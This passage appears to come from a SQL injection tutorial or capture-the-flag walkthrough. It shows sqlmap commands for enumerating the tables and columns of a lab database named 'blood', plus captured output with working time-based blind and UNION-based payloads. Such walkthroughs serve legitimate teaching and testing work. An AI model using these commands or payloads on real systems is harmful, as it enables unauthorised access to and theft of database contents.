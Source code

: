 Now that we have the databases, let's extract tables from the database **blood**.

**Using GET based Method** 
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables` 
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**Using POST based Method**
**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`  
`sqlmap -r req.txt -p blood_group -D blood --tables`

Getting Tables
```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```
\
Once we have available tables, now let’s gather the columns from the table `blood_db`.

**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**Using POST based Method**
`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`  
`sqlmap -r req.txt -D blood -T blood_db --columns`
